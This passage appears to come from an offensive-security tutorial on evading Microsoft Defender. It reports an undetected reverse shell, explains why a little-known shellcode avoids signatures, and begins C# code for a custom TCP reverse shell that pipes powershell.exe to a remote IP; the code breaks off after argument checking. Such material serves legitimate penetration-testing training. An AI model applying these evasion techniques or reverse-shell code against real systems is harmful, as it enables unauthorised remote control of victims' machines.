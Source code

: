 ![image](f3DKQ8Xb6oSp.png)

Now, when we run `NotMalware.exe` from the `Desktop` with `Real-time protection` enabled, we notice that we get a reverse shell and can interact with it without getting detected by `Microsoft Defender Antivirus`.

![image](FIf7Oo3GZBFX.png)

## Option 3: Writing Custom Tools

Given their prevalence in offensive security operations (and cybercrimes), antivirus solutions maintain various signatures for open-source tools like `Metasploit` and `Mimikatz`. However, it often takes time for antivirus solutions to develop signatures for new and immature tools. In this section, we successfully evaded detection by substituting the `Meterpreter` payload with the `micr0_shell` payload. This approach was effective because it's probable that `Microsoft Defender Antivirus` does not currently include a signature for this specific shellcode. Consequently, even if a memory scan is initiated, no suspicious events are likely to be detected. However, it's not unlikely that a signature will be added in the future if the use of `micr0_shell` becomes more widespread among attackers.

This brings us to our third and final option, which is the most effective, but also most time-consuming - writing custom tools. When using custom tools, neither `static` nor `behavioral` analysis poses an issue, since they will not match any `known malicious signatures`.

As an example, let's write a simple `TCP reverse shell` program, which will not require any `obfuscation` or `encryption` since it does not use any known malicious component present in an antivirus solution signatures database. Open `Visual Studio 2022` and create a new `Console App (.NET Framework)` project called `RShell`.

![image](sKfmPfGHFKeX.png)

To develop a reverse shell in C#, we will need to make use of the following classes:

- [System.Net.Sockets.TcpClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient?view=net-8.0) to handles the `TCP` connection
- [System.Diagnostics.Process](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process?view=net-8.0) to spawn the `cmd.exe` or `powershell.exe` process
- [System.IO.StreamReader](https://learn.microsoft.com/en-us/dotnet/api/system.io.streamreader?view=net-8.0), [System.IO.StreamWriter](https://learn.microsoft.com/en-us/dotnet/api/system.io.streamwriter?view=net-8.0) to `read/write` to the `TCP stream`

One example of a simple C# reverse shell is provided below. It establishes a connection to an IP address and port specified on the command line, spawns a `powershell.exe` process, and redirects communication for `STDOUT`, `STDIN`, and `STDERR` to the process.

```csharp
using System;
using System.IO;
using System.Net.Sockets;
using System.Diagnostics;

namespace RShell
{
    internal class Program
    {
        private static StreamWriter streamWriter; // Needs to be global so that HandleDataReceived() can access it

        static void Main(string[] args)
        {
            // Check for correct number of arguments
            if (args.Length != 2)
            {
                Console.WriteLine("Usage: RShell.exe <IP> <Port>");
                return;
            }

```